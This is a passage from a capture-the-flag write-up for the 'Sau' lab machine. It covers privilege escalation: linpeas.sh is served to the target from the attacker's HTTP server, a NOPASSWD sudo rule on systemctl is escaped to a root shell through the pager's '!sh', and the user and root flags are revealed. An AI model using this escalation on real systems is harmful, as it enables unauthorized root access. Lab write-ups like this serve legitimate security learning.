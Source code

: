 ### **Privilege Escalation**

Serving Linpeas to PrivEsc
```bash
python -m http.server                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.224 - - [25/Dec/2023 14:54:21] "GET /linpeas.sh HTTP/1.1" 200 -
```

After running it, we got this Low-hangging fruit  
![](https://res.cloudinary.com/dulldsqcl/image/upload/v1703538826/blog/sau/yr7kseim2vye35zlux1f.png){.maxH300}

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

puma@sau:~$ sudo systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sshh!sh
# whoami
root
```

**Root Flag**
```bash
# ls -la /root
total 40
drwx------  6 root root 4096 Dec 25 11:12 .
drwxr-xr-x 20 root root 4096 Jun 19  2023 ..
lrwxrwxrwx  1 root root    9 Apr 15  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  3 root root 4096 Jun 19  2023 .cache
lrwxrwxrwx  1 root root    9 Apr 15  2023 .lesshst -> /dev/null
drwxr-xr-x  3 root root 4096 Jun  8  2023 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Apr 14  2023 .ssh
-rw-r--r--  1 root root   39 Jun  8  2023 .vimrc
lrwxrwxrwx  1 root root    9 Apr 15  2023 .wget-hsts -> /dev/null
drwxr-xr-x  4 root root 4096 Jun 19  2023 go
-rw-r-----  1 root root   33 Dec 25 11:12 root.txt
# cat /root/root.txt
#* * * ALERT * * * * * * * * * * * * * * * * 
#* If you really want to see this flag, go * 
#* to FLAG CODES at the bottom of the page *
#* * * * * * * * * * * * * * * * * * * * * *
```

### Flag Codes
??? question "**Reveal Flags** 🏁"
    #### **User Flag**
        9868bd4416fe3c3bd159e45f9e2a4156
    #### **Root Flag**
        7b12778f721d463b1c14db007fd6ea99

---